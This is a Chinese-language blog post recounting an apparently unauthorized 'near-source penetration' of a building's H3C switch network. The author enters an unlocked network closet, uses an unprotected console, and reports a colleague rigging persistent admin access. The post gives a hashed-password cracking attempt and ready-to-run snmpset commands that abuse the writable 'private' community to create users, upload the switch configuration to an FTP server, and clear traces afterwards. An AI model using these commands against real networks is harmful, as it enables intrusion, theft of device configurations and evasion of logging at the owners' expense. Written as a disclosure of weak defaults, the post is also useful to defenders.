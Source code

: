```yaml
---
title: SNMP is not only "Monitoring" Protocol - Exploiting H3C SNMP
date: 2024-11-25 14:04:08
tags:
  - 网络
  - 网络安全
---
```


Simple Network *Management* Protocol 是一个用于网络监控和管理的协议. 对于不少人而言, 使用 Grafana 等软件配置 SNMP 监控可以对各种维护信息进行方便地可视化; 但是很多时候我们会忘记, SNMP 是用于 "管理" 的协议, 而不只是 "监控". 因此, 当我们打开 SNMP 时, 我们常常忽略可写的默认配置 (`private` community), 而这会带来灾难性的后果. 这篇博客记录了一次近源渗透的过程.

<!-- more -->

### 交换机在网络间, 网络间锁门, 所以交换机串口不用设密码

有句笑话, "内网安全全靠内网". 这句话在交换机管理口上似乎也适用. 起因是某一天, 我发现网络间的门是开着的, 遂跑进去看了一眼. 由于随身携带网串口线, 我就顺势接了进去. 你猜咋的, Console 口没有 Login 口令也没有 Enable 口令, 直接就是 manage 权限. 后来有位神人把他工位上的网口在网络间的那一端插到 Console 里面去了, 于是获取了 *"持久化"* 的管理权限, 还把旁边的口改成了 Trunk permit all.

### 管理 VLAN 暴露

我本来是懒得管这事的, 但是那位神人把自己的机器接进了管理 VLAN, 狠狠 nmap, 发现里面有不少 H3C 的设备, 应该是整栋楼的网都在里面了. 这下不得不玩一玩了.

我们首先分析了从串口拿到的配置文件, 试图从里面找到 SSH 登录的明文口令. 显然, 没有成功. 但也不是没有收获:

```cfg
local-user #redacted# class manage
 password hash $h$6$/g0pzMiowRibMf+V$gCebiPsmL+rx97v9AHzImTVu/dd5OvkUB2vzPqq9igyaeMeN9yi6b0ffhUyElujx4NF4t9eWn9nZ7zi6C/3rWw==
 service-type ssh
 authorization-attribute user-role network-admin
 authorization-attribute user-role network-operator
 password-control length 4
 undo password-control complexity user-name check
```

这里有密码 Hash, 我们尝试了爆破 ([`$h$6$` Hashcat](https://github.com/84634E1A607A/hashcat/tree/switch_6) ), 但是没有成功. (这告诉我们强密码还是很重要的) 虽然这里面有两个让人浮想联翩的指令 (最小密码长度为 4, 且允许密码中含有用户名), 但是爆破的结果确实不尽如人意.

后来发现 SNMP 开启, 故转而尝试攻击 SNMP.

```cfg
 snmp-agent
 snmp-agent local-engineid 800063A280542BDE8D70C200000001
 snmp-agent community write private
 snmp-agent community read public
 snmp-agent community read cipher $c$3$ljPpsn9d1TBzHoeOpGi1eYcWjfU1nQ==
 snmp-agent community write cipher $c$3$MfmpsSsRFIeSziIk4dkOYMkWuufIEB4=
 snmp-agent sys-info version v1 v2c 
 snmp-agent target-host trap address udp-domain 192.168.xxx.xxx params securityname public v2c
 snmp-agent target-host trap address udp-domain 192.168.xxx.xxx params securityname public v2c
 snmp-agent target-host trap address udp-domain 192.168.xxx.xxx params securityname xxx v2c
```

一开始我还尝试逆向 `$c$3$` crypto, 发现有亿点麻烦; 后来发现这个 `read public` 就是明文, 完全没必要去逆向这个 crypto. 再后来我就懒得管了, 停了不少时间.

### SNMP

这两天突然想起来, SNMP 除了这个只读的 `public` 之外, 还有一个可写的叫 `private` 的 community. 这就不得不试试能不能通过 SNMP 获得全部的权限了.

首先, SNMP 本身就能更改不少东西, 包括但不限于端口的开关, 通过的 VLAN, 等等. 可以说, 有 SNMP 写权限就已经有了 80% 的权限. 但是, 能不能通过 SNMP 拿到 SSH 权限呢?

为了搞清楚 SNMP 在干啥, 首先我们去 H3C 官网拿到 MIB 文件 `20210923_6181667_Comware_MIB-20210918_635750_30003_0` (我就不放上来了). 通过 `snmpwalk -v2c -c public xxx.xxx.xxx.xxx 1.` 等手段可以方便地拿到只读信息. 然后可以对我们感兴趣的部分做研究.

#### SSH?

H3C 对 SSH-MIB 的解释在 [这里](https://www.h3c.com/en/Support/Resource_Center/EN/Switches/Catalog/S9820/S9820/Technical_Documents/Reference_Guides/MIB_Companion/H3C_S9820_8C_MIB_Companion_Rele-17750/13/202403/2070882_294551_0.htm) (应该不会倒闭吧). 对 SSH 的攻击思路是: 新建一个 SSH 用户, 开启这个用户的公钥登录, 把自己的公钥设置进去, 登录; 或者新建一个 SSH 用户并新建一个本地用户, 设置本地用户的密码, 使用 SSH 密码登录.

非常可惜的是, 设置 SSH 公钥登录的逻辑是 新建公钥 -> 给公钥命名 -> 给 SSH 用户 Assign 这个名称. 而我没有找到如何使用 SNMP 创建公钥. 因此, 这条路倒闭了. (如果手头有一台设备, 或许可以对照一下试出来)

而设置密码登录需要新建本地用户. 理论上这个交换机里面已经有两个本地用户了, 但是我从 SNMP 的 USER 表里面读出来的个数是 0. 因此, SNMP 的 USER 表和交换机的 local user 似乎有一些区别. 在使用 [USER-MIB](https://www.h3c.com/en/Support/Resource_Center/HK/Routers/H3C_SR8800-F/H3C_SR8800-F/Technical_Documents/Reference_Guides/MIB_Companion/H3C_SR8800_F_Routers_MIB_R-13029/17/202308/1909461_294551_0.htm) 创建用户之后, SSH 也无法登陆.

这条路到这里似乎就寄了. 但是还是记录一下:

```sh
snmpset -v2c -c private 192.168.xxx.xxx HH3C-USER-MIB::hh3cUserName.1 string adnin HH3C-USER-MIB::hh3cUserInfoRowStatus.1 integer 4 HH3C-USER-MIB::hh3cUserPassword.1 string AdminADN1n HH3C-USER-MIB::hh3cAuthMode.1 integer 0
```

#### CFG?

后来我又翻到了这篇文档: [通过SNMP进行配置文件管理举例](https://www.h3c.com/cn/d_200906/636072_30003_0.htm#_Toc231200647)

也就是说, **SNMP 可以用于直接管理交换机的配置文件**. 对应 OID 位于 [HH3C-CONFIG-MAN-MIB::hh3cCfgOperateTable](https://www.h3c.com/cn/d_202202/1547434_30005_0.htm), 其中 `hh3cCfgOperateType` 可以管理交换机配置文件, 且参数可以是 `running2Startup(1) startup2Running(2) running2Net(3) net2Running(4) net2Startup(5) startup2Net(6) running2File(7) file2Running(8)`. 可以看到, 此表支持利用 FTP 把当前配置传到远程主机上, 也可以从远程主机下载配置.

需要注意的是, 此处会使用 FTP 的 ascii mode (这个狗屎玩意已经被很多 FTP 服务器弃用了, 需要在配置里面手动开启).

使用以下命令:

```sh
snmpset -v2c -c private 192.168.xxx.xxx HH3C-CONFIG-MAN-MIB::hh3cCfgOperateType.1 integer 6 \ # 6: startup2Net
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateRowStatus.1 integer 4 \ # 4: createAndGo, 即创建后立即执行
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateProtocol.1 integer 1 \ # 1: FTP
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateFileName.1 string t/cfg \ # FTP 上传的位置
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateServerAddress.1 a 192.168.xxx.yyy \ # FTP 服务器的地址
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateUserName.1 string anonymous \ # FTP 用户
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateUserPassword.1 string anonymous \ # FTP 密码
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateServerPort.1 integer 21 \ # FTP 端口
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateSrvAddrType.1 integer 1 # 1: ipv4
```

在 FTP 服务器配置正确的情况下, 就可以拿到交换机的配置文件了. (怎么改就不用说了吧) 然后记得删掉这一行, 清除痕迹 (不过会有 Log 记录下来)

```sh
snmpset -v2c -c private 192.168.xxx.xxx HH3C-CONFIG-MAN-MIB::hh3cCfgOperateRowStatus.1 integer 6
```

至此, 这整个管理网就算烂完了. 不过在搞完之后发现由于没有配 ACL, 以业务网的交换机地址为网关可以直接访问管理网...... 所以好像也没什么问题......
